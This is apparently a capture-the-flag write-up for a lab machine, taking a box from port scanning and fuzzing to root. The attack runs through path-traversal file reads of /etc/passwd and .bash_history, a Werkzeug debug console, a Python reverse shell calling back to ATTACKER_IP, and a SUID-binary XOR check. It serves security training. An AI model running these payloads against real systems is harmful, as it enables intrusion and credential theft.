Network Reconnaissance
Full-range SYN scan with service detection to map the attack surface.
shell
nmap -sS -sV -p- -T5 <TARGET_IP>
# -sS stealth SYN -sV versions -p- all ports -T5 fast (CTF)
Port 80 — Web Enumeration
Login form was a dead end. Moved straight to directory enumeration to surface anything not linked from the main page.
shell
ffuf -w /usr/share/wordlists/dirb/common.txt \
-u http://TARGET_IP/FUZZ \
-e .php,.html,.bak,.txt \
-mc 200,301,302ffuf hit one interesting path — and surfaced a JS file that turned out to be critical.
Source Code Analysis — Info Disclosure

/assets/js/api.js had developer comments that should never ship to production. They detailed the full API path structure and called out a known vulnerability by name.
/api/v1/) has an LFI in the file parameter. v2 was patched — but v1 was never removed from the server.Developers documented the bug, deployed the fix to v2, and forgot to take down v1. The endpoint remained live and fully accessible.
Port 5000 — API Confirmation

http
GET http://TARGET_IP:5000/api/v2/resources/books/random4
# JSON returned → v2 path confirmed → v1 likely still alive tooAPI Documentation Discovery

shell
ffuf -w /usr/share/wordlists/dirb/common.txt \
-u http://TARGET_IP:5000/FUZZ \
-e .txt,.md,.json \
-mc 200,301Dead End → Parameter Fuzzing

All documented endpoints returned clean responses. The key realization: the bug might be in an undocumented parameter — not an undocumented endpoint. Shift strategy.
shell
# Pivot: endpoint fuzzing → parameter fuzzing against v1
wfuzz -c \
-z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
--hc 404 \
-u "http://TARGET_IP:5000/api/v1/resources/books?FUZZ=../../../etc/passwd"The Breakthrough — Hidden Parameter

show parameter that accepts arbitrary file paths with zero sanitization — not in the docs, not in the JS comments, only found by fuzzing.LFI Exploitation

http
GET http://TARGET_IP:5000/api/v1/resources/books?show=/etc/passwd
# /etc/passwd returned in full
# Next targets: .bash_history, SSH keys, app config, DB credsCredential Discovery via .bash_history

http
GET http://TARGET_IP:5000/api/v1/resources/books?show=.bash_history
# PIN exposed — ran app in debug mode during dev, never rotated before deployingRCE via Werkzeug Debug Console

Reverse Shell

python — werkzeug console
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER_IP",7777))
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])attacker — nc listener
nc -lvnp 7777User Flag

shell
cat user.txt
THM{...}Privesc — Binary Discovery

Post-exploitation enumeration surfaces a custom binary: try-harder. On execution it prompts: "What's The Magic Number?!". Likely calls setuid(0) and spawns a shell on correct input — reverse engineering required.
Binary Reverse Engineering

shell — transfer binary
# on target
python3 -m http.server 8080
# on attacker
wget http://TARGET_IP:8080/try-harderc — decompiled logic (ghidra)
void main(void) {
setuid(0); // becomes root if SUID bit set
uint constant = 0x5db3;
puts("What's The Magic Number?!");
scanf("%u", &user_input);
result = user_input ^ 0x1116 ^ constant;
if (result == 0x5dcd21f4) {
system("/bin/bash -p"); // root shell
} else {
puts("Incorrect Try Harder");
}
}XOR is self-inverse — to find the input, XOR the target with the same constants:
python
magic = 0x5dcd21f4 ^ 0x5db3 ^ 0x1116
print(magic) # decimal for the prompt
print(hex(magic)) # verify
1573743953 # 0x5dcd6d51Root

shell
$ ./try-harder
What's The Magic Number?!
1573743953
# whoami
root
cat /root/root.txt
THM{...}